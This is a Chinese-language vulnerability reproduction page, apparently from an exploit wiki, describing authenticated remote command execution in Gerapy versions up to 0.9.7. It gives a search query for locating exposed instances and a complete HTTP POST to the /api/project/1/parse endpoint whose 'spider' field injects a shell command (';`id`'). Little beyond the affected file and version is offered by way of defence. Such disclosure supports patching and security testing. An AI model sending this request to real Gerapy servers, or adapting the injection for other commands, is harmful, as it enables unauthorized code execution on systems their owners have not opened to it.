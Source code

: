 # Gerapy parse 后台远程命令执行漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的方法存在任意命令执行，攻击者登录后台后发送特定的请求包即可利用漏洞 

## 漏洞影响

<a-checkbox checked>Gerapy <= 0.9.7</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Gerapy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942-20220313132256739.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![img](/assets/PeiQi-Wiki/img/1638185162093-04fc1593-86b0-4c91-b8d3-32ae22fc224d.png)

构造请求包测试命令执行

```python
POST /api/project/1/parse HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 18

{"spider":";`id`"}
```

![img](/assets/PeiQi-Wiki/img/1638185190368-660687ff-2bb8-4251-8b66-811fca41ca9b.png)